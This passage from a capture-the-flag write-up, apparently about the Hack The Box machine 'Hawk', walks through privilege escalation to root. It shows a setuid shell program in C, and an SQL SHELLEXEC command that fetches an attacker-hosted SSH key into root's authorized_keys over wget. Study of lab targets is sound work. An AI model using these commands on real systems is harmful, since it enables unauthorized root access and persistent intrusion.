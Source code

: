     #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    int main(int argc, char *argv[]) {
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
    }
    

Compiled:

    
    
    root@kali# gcc -o shell /opt/shells/setuid/exec.c
    

Started a web server:

    
    
    root@kali# python3 -m http.server 81
    

Then, issued the following commands into the console:

![1543530450157](https://0xdfimages.gitlab.io/img/1543530450157.png)

On doing that, `.a` showed up in tmp, owned by root, with the setuid bit:

    
    
    daniel@hawk:/tmp$ ls -la .a
    -rwsrwxr-x 1 root root 16664 Nov 29  2018 .a
    

Running that gives me a root shell:

    
    
    daniel@hawk:/tmp$ ./.a
    # id
    uid=0(root) gid=1005(daniel) groups=1005(daniel)
    

_July 2023 note: Much like in[Smasher](/2018/11/24/htb-
smasher.html#exploiting-checker), Hawk must have gotten some maintenance that
updated the OS to include protections for `/tmp`. The above strategy no longer
works from `/tmp`, but moving to `/home/daniel` works just fine._

Another alternative was to create an ssh key pair, and then use:

    
    
    CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.3:81/id_rsa.pub');
    

From there, I could ssh in as root.

A third idea that worked was putting one of the reverse shells in a file as a
bash script, and having root run it.

## Beyond Root - Other Listening Ports
